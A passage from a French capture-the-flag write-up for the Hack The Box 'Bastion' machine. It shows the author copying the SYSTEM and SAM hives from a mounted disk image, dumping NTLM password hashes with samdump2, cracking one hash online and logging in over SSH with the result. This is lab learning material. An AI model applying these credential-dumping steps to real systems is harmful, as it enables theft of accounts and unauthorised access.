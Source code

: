 #### samdump

Comme on peut le voir, on peut lire les fichiers **SYSTEM** et **SAM**, on peut dump les hashage de mot de passe avec **samdump** ou **secretsdump**, je les ai donc copiées  dans mon répertoire :

```bash
┌─[root@kali]─[/mnt/vhd/Windows/System32/config]
└──╼ #cp ./SYSTEM ./SAM /root/bastion/
```

J'utilise **samdump** :

```bash
┌─[root@kali]─[~/bastion]
└──╼ #samdump2 ./SYSTEM ./SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

On prend le hash du mot de passe de l'utilisateur L4mpje : 

```bash
26112010952d963c8dc4217daec986d9
```

On va sur [crackstation](https://crackstation.net/) : 

![Mot de passe : bureaulampje](../../.gitbook/assets/htb_bastion_img1.png)

On se connecte en SSH sur la cible avec l'utilisateur L4mpje :

```bash
┌─[✗]─[root@kali]─[~/bastion]
└──╼ #ssh l4mpje@10.10.10.134
The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
ECDSA key fingerprint is SHA256:ILc1g9UC/7j/5b+vXeQ7TIaXLFddAbttU86ZeiM/bNY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.134' (ECDSA) to the list of known hosts.
l4mpje@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>
l4mpje@BASTION C:\Users\L4mpje>cd Desktop
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

```